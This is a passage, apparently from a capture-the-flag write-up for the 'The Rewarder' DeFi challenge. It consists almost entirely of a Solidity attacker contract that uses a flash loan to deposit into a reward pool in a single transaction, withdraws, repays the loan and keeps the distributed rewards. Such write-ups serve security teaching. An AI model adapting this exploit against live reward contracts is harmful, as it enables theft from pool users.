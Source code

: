 ## Proof of Concept

Our attacker contract is as follows:

```solidity
contract TheRewarderAttacker {
  address immutable owner;
  FlashLoanerPool immutable loanPool;
  TheRewarderPool immutable rewarderPool;
  uint rewards;

  constructor(address loanPool_, address rewarderPool_) {
    loanPool = FlashLoanerPool(loanPool_);
    rewarderPool = TheRewarderPool(rewarderPool_);
    owner = msg.sender;
  }

  function pwn(uint256 amount) external {
    // take loan
    loanPool.flashLoan(amount);
    // will result in calling receiveFlashLoan, which will deposit & pull
  }

  function receiveFlashLoan(uint256 amount) external {
    // make sure this is called by the pool
    require(msg.sender == address(loanPool), "you must be the loan pool");

    // make sure this will trigger reward distribution
    require(rewarderPool.isNewRewardsRound(), "not time yet");

    // pools to be used
    DamnValuableToken liquidityToken = rewarderPool.liquidityToken();
    RewardToken rewardToken = rewarderPool.rewardToken();

    // approve tokens for deposit
    liquidityToken.approve(address(rewarderPool), amount);

    // deposit (will also call distributeRewards)
    rewarderPool.deposit(amount);

    // withdraw so that you can pay back the loan
    rewarderPool.withdraw(amount);

    // give back the loan
    liquidityToken.transfer(address(loanPool), amount);

    // forward the rewards to yourself
    require(rewardToken.transfer(owner, rewardToken.balanceOf(address(this))), "cant fetch rewards");
  }
}
```
